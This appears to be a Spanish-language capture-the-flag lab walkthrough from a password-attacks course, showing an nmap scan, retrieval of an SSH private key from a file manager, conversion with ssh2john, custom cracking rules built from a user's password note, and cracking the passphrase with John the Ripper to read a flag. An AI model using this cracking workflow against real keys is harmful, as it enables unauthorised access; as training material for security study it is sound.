 # Walk: Password Attacks - SSH Private Key Passphrase - VM #1

## Fecha: 23/02/2025
## Host: Ubuntu
## IP: 192.168.200.201
## Objetivo
Follow the steps outlined in this section to get access to VM #1 (BRUTE) on port 2222 with SSH by cracking the passphrase of the private key. Find the flag in the home directory of the user _dave_.
## Herramientas
1. ssh2john
2. 
## Procedimiento y comandos
#### Paso 1: Accedemos a los archvios necesarios para creckear las credenciales ssh.
- Enumermos en busqueda de puertos abiertos: `nmap -sV --open 192.168.200.201` 
```
nmap -sV --open 192.168.200.201
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-23 14:05 -03
Nmap scan report for 192.168.200.201
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
2222/tcp open  ssh     OpenSSH 9.0 (protocol 2.0)
8080/tcp open  http    PHP cli server 5.5 or later
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds

```
> Notamos el puerto _**2222**_ corriendo _**ssh**_ y el puerto _**8080**_ corriendo TinyFileManager.
- Ingresamos con las credenciales encontradas en la unidad **_16.1.2_** : `user/121212`
- Descargamos los archivos: _**note.txt**_ y _**id_rsa**_

#### Paso 2: Autenticacion y login por ssh.
- Damos permisos a _**id_rsa**_: `chmod 600 id_rsa`
- Intentamos conectarnos: `ssh -i id_rsa -p 2222 dave@192.168.200.201`
> Ninguna de las passwords encontradas en _**note.txt**_ dan resultado. Según el archivo note.txt, se habilitó una nueva política de contraseñas en enero de 2022.

#### Paso 3: Transformar la clave privada en un formato hash.
- `ssh2john id_rsa > ssh.hash` 
```
cat ssh.hash       
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592f...55bdcf1384455aca7e3cd274fcb12b1b3a87e2e804e07e4c904ba2220fccb0a8ff829944a51f1ca7c4097256496f89174160ed831f2c4f21e411252f8fb9112deba4c3089ba2983b49d703e7f6bfbbc2b3626964dccd2e51349ec8e4949f0000058018795357c0b4addcc14f32a4c3e90627de0a9cd99324d...$16$486
```
- Determinaremos el modo con: \$sshng _**$6\$**_ 16$7059
- Eliminamos: _**"id_rsa:"**_ del archivo .hash
- Identificamos el modo: `hashcat -h | grep -i "ssh"`
```
   6700 | AIX {ssha1}                                                | Operating System
   6400 | AIX {ssha256}                                              | Operating System
   6500 | AIX {ssha512}                                              | Operating System
   1411 | SSHA-256(Base64), LDAP {SSHA256}                           | FTP, HTTP, SMTP, LDAP Server
   1711 | SSHA-512(Base64), LDAP {SSHA512}                           | FTP, HTTP, SMTP, LDAP Server
    111 | nsldaps, SSHA-1(Base64), Netscape LDAP SSHA                | FTP, HTTP, SMTP, LDAP Server
  10300 | SAP CODVN H (PWDSALTEDHASH) iSSHA-1                        | Enterprise Application Software (EAS)
  22911 | RSA/DSA/EC/OpenSSH Private Keys ($0$)                      | Private Key
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)                      | Private Key
  22931 | RSA/DSA/EC/OpenSSH Private Keys ($1, $3$)                  | Private Key
  22941 | RSA/DSA/EC/OpenSSH Private Keys ($4$)                      | Private Key
  22951 | RSA/DSA/EC/OpenSSH Private Keys ($5$)                      | Private Key

```
En base a la salida de 
- **22921** | RSA/DSA/EC/OpenSSH Private Keys **(\$6\$)**                      | Private Key 
#### Paso 4: Crackeamos el .hash
- Creamos un archvio de reglas, con las notas encontradas en _**note.txt**_
```
kali@kali:~/passwordattacks$ cat note.txt
Dave's password list:
Window
rickc137
dave
superdave
megadave
umbrella

Note to myself:

New password policy starting in January 2022.
Passwords need 3 numbers, a capital letter and a special character.
```
- Creamos el archivo con estas reglas dentro:
```
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
> Estas reglas agregan: 137 al final de cada password, transforman en mayuscula la primer letra, y agregan un caracter especial al final

- Generamos un archivo con las passwords encontradas: `dave.passwords`
```
Window
rickc137
dave
superdave
megadave
umbrella
```
- Procedemos a ejecutar hashcat:
- ` hashcat -m 22921 ssh.hash dave.passwords -r ssh.rule --force`
> **Error de longitud de Token**
```
Hashfile 'ssh.hash' on line 1 ($sshng...cfeadfb412288b183df308632$16$486): Token length exception
No hashes loaded.
```
>**_"las claves privadas modernas y sus frases de contraseña correspondientes se crean con el cifrado aes-256-ctr, que el modo 22921 de Hashcat no admite_"**
- Utilizaremos JtR:
	- Agregamos un nombre a las reglas creadas con anterioridad: **sshRules** y las adermios a _**john.conf**_
```
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
` sh -c 'cat /home/kali/OffSec/16-PasswordAttacks/16.2.4-SSH-PrivateKeyPassphrase/ssh.rule >> /etc/john/john.conf'`
- Ejecutamos JtR:
	- `john --wordlist=dave.passwords --rules=sshRules ssh.hash`
```
>>> Tres doritos despues
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Umbrella137!     (?)     
1g 0:00:00:01 DONE (2025-02-23 15:30) 0.5050g/s 9.090p/s 9.090c/s 9.090C/s Window137!..Umbrella137#
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- ssh Password: **Umbrella137!**
#### Paso 5: Obtenemos el flag:
- Nos conectamos con las credenciales obtenidas por ssh:
`ssh -i id_rsa -p 2222 dave@192.168.200.201`
```
Enter passphrase for key 'id_rsa': 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

97155f11d0d8:~$ ls
flag.txt
97155f11d0d8:~$ cat flag.txt 
OS{db5..flag..307}
97155f11d0d8:~$ 
